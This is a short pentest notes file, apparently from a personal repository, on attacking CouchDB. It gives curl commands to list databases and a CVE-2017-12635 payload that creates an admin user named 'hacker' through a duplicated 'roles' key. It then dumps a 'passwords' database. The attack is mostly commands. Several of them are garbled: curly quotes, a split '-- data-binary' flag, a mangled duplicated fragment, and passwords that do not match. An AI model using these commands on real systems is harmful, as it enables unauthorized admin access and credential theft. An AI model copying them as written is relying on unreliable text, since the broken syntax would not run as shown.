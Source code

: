 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

```bash - kali
curl http://$TARGET:5984/
```

```bash - kali
curl -X GET http://$TARGET:5984/_all_dbs
```

```bash - kali
curl -X GET http://$USER:$PASSWORD@$TARGET:5984/_all_dbs
```

### CVE-2017-12635 RCE

#### Create `hacker` user
```bash - kali
curl -X PUT ‘http://$TARGET:5984/_users/org.couchdb.user:hacker' -- data-binary ‘{ “type”: “user”, “name”: “hacker”, “roles”: [“_admin”], “roles”: [], “password”: “password” }’
```

#### Dump database
```bash - kali
curl http://$TARGET:5984/passwords/_all_docs?include_docs=true -u hacker:-Xpassword <ds/_all_docs?include_docs=true -u hacker:-Xpassword
```

#### Dump passwords
```bash - kali
curl -X GET http://hacker:passwords@$TARGET:5984/passwords
```
